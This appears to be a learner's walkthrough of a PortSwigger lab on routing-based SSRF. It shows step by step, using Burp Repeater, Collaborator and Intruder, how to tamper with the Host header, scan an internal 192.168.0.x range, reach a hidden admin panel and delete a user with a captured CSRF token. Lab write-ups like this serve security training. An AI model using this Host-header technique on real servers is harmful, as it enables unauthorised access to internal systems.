 # SSRF via flawed request parsing

## This lab is vulnerable to routing-based [SSRF](https://portswigger.net/web-security/ssrf) due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.

## To solve the lab, access the internal admin panel located in the `192.168.0.0/24` range, then delete Carlos.

---

### step 1

send Homepage into repeter

![screenshot](images/lab5_homepage_repeter.jpg)

### step2

change host url
eg. change net to com

![screenshot](images/lab5_homepage_change_host.jpg)

### step3

add GET request `https://0ac6008603da820a815ce42800d200c5.web-security-academy.net/`

![screenshot](images/lab5_add_url_directly_to_home_page.jpg)

### step4

add host from burp collaborator

![screenshot](images/lab5_burp_collaborator_to_home_page.jpg)

### step5

send ### step4 to intruder
add host `192.168.0.0`
payload number
0 to 255 **\_\_\_\_**

### step 1

start attack

![screenshot](images/lab5_attacking_result_intruder.jpg)

![screenshot](images/lab5_response_from_intruder.jpg)

### step6

add
host: `192.168.0.12` is /admin response

![screenshot](images/lab5_add_admin_into_get_request.jpg)

### step7

from ### step6 right click request in browser current session
client error

![screenshot](images/lab5_client_error_forbidden.jpg)

### step8

from ### step6
in response you will see

```html
                   </header>
                    <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="g1WAHTPf0JSymLWkKMLNxxwbN3lo99uc">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>

```

![screenshot](images/lab5_response_page_from_step_6.jpg)

### step9

add csrf token and user name into get request
`csrf=g1WAHTPf0JSymLWkKMLNxxwbN3lo99uc&username=carlos `
_GET https://0ac6008603da820a815ce42800d200c5.web-security-academy.net/admin/delete?&csrf=g1WAHTPf0JSymLWkKMLNxxwbN3lo99uc&username=carlos HTTP/2_
send request lab solved

![screenshot](images/lab5_csrf_token_homepage_to_repeter.jpg)
